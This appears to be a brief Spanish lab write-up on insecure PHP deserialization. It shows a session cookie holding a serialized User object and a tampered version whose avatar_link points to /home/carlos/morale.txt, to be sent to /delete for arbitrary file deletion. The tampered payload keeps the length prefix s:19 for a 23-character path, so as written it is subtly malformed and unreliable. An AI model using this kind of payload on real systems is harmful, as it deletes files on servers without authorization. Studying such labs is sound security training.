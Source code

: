 
```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"gr1tvt24g7lxaa9o99ch3h6db2qwd5ks";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

Simplemente hacemos un POST a /delete cambiando la cookie por : 

```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"gr1tvt24g7lxaa9o99ch3h6db2qwd5ks";s:11:"avatar_link";s:19:"/home/carlos/morale.txt";}
```